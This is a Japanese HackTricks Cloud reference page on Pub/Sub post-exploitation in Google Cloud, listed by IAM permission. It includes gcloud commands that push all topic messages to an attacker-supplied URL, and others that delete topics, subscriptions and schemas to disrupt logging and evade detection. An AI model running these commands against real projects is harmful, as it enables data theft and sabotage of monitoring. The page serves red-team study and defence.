 # GCP - Pub/Sub ポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Pub/Sub

Pub/Subに関する詳細情報は、以下のページを確認してください：

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

トピックにメッセージを公開します。これは、**予期しないデータを送信**し、予期しない機能をトリガーしたり、脆弱性を悪用するのに役立ちます：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

メッセージを受信するのを防ぐのに役立ちます。おそらく、検出を避けるためです。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

サブスクリプションがメッセージを受信するのを防ぐために便利で、検出を避けるためかもしれません。\
サブスクリプションが接続されていても、トピックを削除することが可能です。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

この権限を使用して、トピックの設定を更新し、`--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`などを使用して妨害します。

### `pubsub.topics.setIamPolicy`

以前の攻撃を実行するための権限を自分に与えます。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

ウェブサーバー内のすべてのメッセージを取得します：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

サブスクリプションを作成し、それを使用して**メッセージを取得**します:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**サブスクリプションを削除する** は、ログ処理システムやそれに類似したものを妨害するのに役立つかもしれません:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

この権限を使用して、メッセージがアクセス可能な場所（URL、Big Queryテーブル、バケット）に保存されるように設定を更新するか、単にそれを妨害します。

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

自分に以前コメントした攻撃を実行するために必要な権限を与えます。

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

スキーマをトピックに攻撃して、メッセージがそれを満たさないようにし、したがってトピックが中断されます。\
スキーマがない場合は、作成する必要があるかもしれません。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

これはスキーマを削除するように見えるかもしれませんが、スキーマに適合しないメッセージを送信することはできません。しかし、スキーマが削除されるため、実際にはメッセージはトピックに入ることはありません。したがって、これは**無駄です**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

自分に以前コメントされた攻撃を実行するために必要な権限を与えます。

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

これは、すべての未ACKメッセージのスナップショットを作成し、それらをサブスクリプションに戻します。攻撃者にはあまり役に立ちませんが、ここにあります:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
